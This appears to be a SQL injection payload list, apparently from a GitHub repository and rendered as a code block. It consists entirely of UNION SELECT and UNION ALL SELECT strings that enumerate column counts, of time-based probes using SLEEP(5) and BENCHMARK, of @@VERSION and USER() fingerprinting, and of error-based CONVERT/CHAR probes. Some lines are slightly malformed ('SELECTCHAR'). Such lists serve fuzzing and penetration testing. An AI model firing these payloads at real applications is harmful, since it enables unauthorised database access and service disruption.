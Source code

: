 ```
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
 UNION ALL SELECT USER()-- 
 UNION ALL SELECT SLEEP(5)-- 
 UNION ALL SELECT USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5)-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- 
 UNION ALL SELECT NULL-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))-- 
```